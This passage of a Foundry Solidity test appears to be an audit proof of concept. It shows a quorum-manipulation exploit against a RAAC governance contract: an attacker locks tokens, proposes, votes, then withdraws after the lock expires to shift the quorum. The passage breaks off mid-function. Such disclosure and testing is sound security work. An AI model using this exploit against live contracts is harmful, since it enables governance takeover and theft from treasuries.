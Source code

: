 ```solidity 
            // Give each account enough tokens for their larger lock amount
            uint256 accountTokens = 200_000e18 * (i + 1);
            raacToken.transfer(attackerAccounts[i], accountTokens);
        }
​
        // Give extra tokens to attacker0 for the proposal
        raacToken.transfer(attackerAccounts[0], 500_000e18);
​
        // Label accounts for better trace readability
        vm.label(attackerAccounts[1], "legitimateUser");
        vm.label(attackerAccounts[0], "attacker");
    }
  
    function testQuorumManipulationAttack() public {
        // Setup initial state with legitimate proposal
        address legitimateUser = attackerAccounts[1];  // Renamed for clarity
        vm.startPrank(legitimateUser);
        raacToken.approve(address(veToken), 400_000e18);
        veToken.lock(400_000e18, 365 days); // This will give 100k voting power
        
        address[] memory targets = new address[](1);
        uint256[] memory values = new uint256[](1);
        bytes[] memory calldatas = new bytes[](1);
        
        uint256 legitimateProposal = governance.propose(
            targets,
            values,
            calldatas,
            "Legitimate Proposal",
            IGovernance.ProposalType.TreasuryAction
        );
        vm.stopPrank();
​
        // Malicious attacker creates their proposal
        address attacker = attackerAccounts[0];  // Renamed for clarity
        vm.startPrank(attacker);
        raacToken.approve(address(veToken), 500_000e18);
        veToken.lock(500_000e18, 365 days);  // This will give 125k voting power
        
        uint256 attackerProposal = governance.propose(
            targets,
            values,
            calldatas,
            "Attacker Proposal",
            IGovernance.ProposalType.TreasuryAction
        );
​
        // Move to voting period
        vm.warp(block.timestamp + governance.votingDelay() + 1);
​
        // Record initial quorum
        uint256 initialQuorum = governance.quorum();
        console.log("Initial Quorum Required:", initialQuorum);
​
        // Attacker votes on their proposal
        governance.castVote(attackerProposal, true);
​
        // Attacker manipulates quorum by withdrawing after lock expires
        vm.warp(block.timestamp + 365 days);
        veToken.withdraw();
​
        // Check manipulated quorum
        uint256 manipulatedQuorum = governance.quorum();
```